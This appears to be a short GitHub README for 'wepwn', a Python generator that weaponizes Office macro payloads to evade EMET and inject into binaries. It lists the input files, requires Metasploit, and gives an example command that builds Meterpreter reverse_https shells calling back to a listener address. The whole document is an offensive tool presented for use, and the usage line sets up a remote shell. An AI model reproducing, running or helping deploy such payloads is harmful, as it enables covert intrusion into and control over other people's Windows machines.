

wepwn - A generator to weaponize Macro payloads that can evade EMET and utilises native VB migration. 
 
binary-paths.txt: a list of paths you want to inject into 
payload-list.txt: a current list of supported payloads 
directory-paths.txt: a list of directories that you want to recursively search for binaries to inject into 

Metasploit framework must be installed. It is a requirement.

Example Usage: 
python wepwn.py 192.168.32.129 192.168.32.129 443 80 --x86 windows/meterpreter/reverse_https --x64 windows/x64/meterpreter/reverse_https

Further: pip install termcolor

